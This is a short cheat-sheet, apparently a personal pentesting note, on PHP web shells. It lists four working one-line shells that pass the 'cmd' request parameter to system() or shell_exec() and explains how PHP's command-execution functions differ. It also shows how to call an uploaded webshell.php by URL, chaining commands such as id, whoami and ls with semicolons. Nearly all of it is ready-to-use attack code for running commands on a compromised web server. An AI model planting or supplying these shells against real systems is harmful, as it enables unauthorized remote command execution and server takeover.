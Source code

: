 
Garr uses: `<?php system($_GET['cmd']);?>`

```php
<?php
    echo system($_GET["cmd"]);
?>
```

```php
<?php
    echo system($_REQUEST["cmd"]);
?>
```

```php
<?php
	echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>";
?>
```

`$_POST` can catch the data which is sent using POST method
`$_GET` can catch the data which is sent using GET method
`$_REQUEST` can catch the data which is sent using **both POST & GET methods**

**exec()**: returns the last line of output from the command and flushes nothing.
**shell_exec()**: returns the entire output from the command and flushes nothing.
**system()**: returns the last line of output from the command and tries to flush the output buffer after each line of the output as it goes.
**passthru()**: returns nothing and passes the resulting output without interference to the browser, especially useful when the output is in binary format.

maybe use (`2>&1`) too

Use by entering a URL and "view source" for prettier output
http://test.com/uploaded-files/webshell.php?cmd=id;whoami;ls

This also uses the fact that ; at a shell prompt makes it possible to run several commands after each other

